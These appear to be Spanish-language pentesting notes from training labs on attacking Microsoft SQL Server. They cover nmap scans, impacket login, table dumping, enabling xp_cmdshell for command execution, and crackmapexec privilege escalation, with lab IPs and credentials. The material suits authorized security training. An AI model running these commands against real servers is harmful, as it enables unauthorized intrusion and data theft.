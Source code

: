 Usualmente usa los puertos tcp/1433 y UDP/1434

### Scan

    sudo nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 10.129.201.248

### metasploit:

    scanner/mssql/mssql_ping

### connecting:

    impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth

### Version

    SELECT @@version;

### Ver DBs:

    SELECT name FROM sys.databases;

### Ver tablas

    SELECT * FROM offsec.information_schema.tables;

### Dumpear una tabla

    select * from offsec.dbo.users;

---

# RCE

### 1)Iniciamos el advanced mode

    EXECUTE sp_configure 'show advanced options', 1;

### 2)Reconfiguramos

    RECONFIGURE;

### 3)Configuramos el xp_cmdshell

    EXECUTE sp_configure 'xp_cmdshell', 1;

### 4)Recondiguramos

    RECONFIGURE;
### 5) ejecutamos

    EXECUTE xp_cmdshell 'whoami';

# PE con crackmapexec

### Revisar si podemos elevar privilegios
    crackmapexec mssql 10.129.203.121 -u robert -p Inlanefreight01! -M mssql_priv
### Ejecutar de manera automática la elevación de privilegios

    crackmapexec mssql 10.129.203.121 -u robert -p Inlanefreight01! -M mssql_priv -o ACTION=privesc

Luego vamos poder ejecutar comandos o hacer un rollback

### Hacer rollback de privilegios

    crackmapexec mssql 10.129.203.121 -u robert -p Inlanefreight01! -M mssql_priv -o ACTION=rollback
